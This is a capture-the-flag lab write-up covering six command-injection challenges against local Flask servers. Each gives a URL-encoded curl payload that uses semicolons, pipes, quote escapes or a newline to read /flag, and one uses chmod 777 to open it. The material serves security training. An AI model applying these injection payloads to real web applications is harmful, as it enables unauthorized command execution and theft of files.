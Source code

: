 # CMDi

## CMDi 1

```shell
cat /challenge/server
```

The Flask app takes a directory as query param (`/adventure?dir`) and executes `ls -l {dir}`
Can inject `; cat <flag>`

Start the server and use curl:

```shell
curl http://challenge.localhost:80/adventure?dir=.%3B%20cat%20%2Fflag
```

(URL-encoding of ".; cat /flag")

## CMDi 2

```shell
cat /challenge/server
```

The Flask app takes a directory as query param (`/stage?output-path`) and executes `ls -l {output-path}`
Can't use previous solution as the server removes ";"

Executing this:

```shell
ls -l / | grep "flag" | awk '{print "/" $NF}' | xargs cat
```

Lists contents of `/`, takes the line with `flag`, prints only the last word "flag" along with a `/`, use this output as an argument of cat

Start the server and use curl:

```shell
curl http://challenge.localhost:80/stage?output-path=%2F%20%7C%20grep%20%22flag%22%20%7C%20awk%20%27%7Bprint%20%22%2F%22%20%24NF%7D%27%20%7C%20xargs%20cat
```

## CMDi 3

```shell
cat /challenge/server
```

The Flask app takes a directory as query param (`/trial?storage-path`) and executes `ls -l '{storage-path}'`
Injection has to take care of `'`

Executing: \
ls -l '**.'; cat /flag; echo 'yayy**'

Start the server and use curl:

```shell
curl http://challenge.localhost:80/trial?storage-path=.%27%3B%20cat%20%2Fflag%3B%20echo%20%27yayy
```

## CMDi 4

```shell
cat /challenge/server
```

The Flask app takes a timezone as query param (`/initiative?time-region`) and executes `TZ={time-region} date`

Executing: \
TZ=**Hogwarts;cat /flag;** date

Start the server and use curl:

```shell
curl http://challenge.localhost:80/initiative?time-region=Hogwarts%3Bcat%20%2Fflag%3B
```

## CMDi 5

```shell
cat /challenge/server
```

The Flask app takes a path as query param (`/assignment?path`) and executes `touch {path}`
Output is not shown, so `cat` won't work. But we can change the permission of the flag file and then read it.

Executing: \
touch **/flag; chmod 777 /flag**

Start the server and use curl:

```shell
curl http://challenge.localhost:80/assignment?path=%2Fflag%3B%20chmod%20777%20%2Fflag
cat /flag
```

## CMDi 6

```shell
cat /challenge/server
```

The Flask app takes a path as query param (`/exercise?subdirectory`) and executes `ls -l {subdirectory}` \
Problem: The special characters **; & | > < ( ) ` $** all are blocked \

We know that _newline_ can also be used as a command separator.

Executing:

```shell
ls -l .
cat /flag
```

Start the server and use curl:

```shell
curl http://challenge.localhost:80/exercise?subdirectory=.%0Acat%20/flag
```
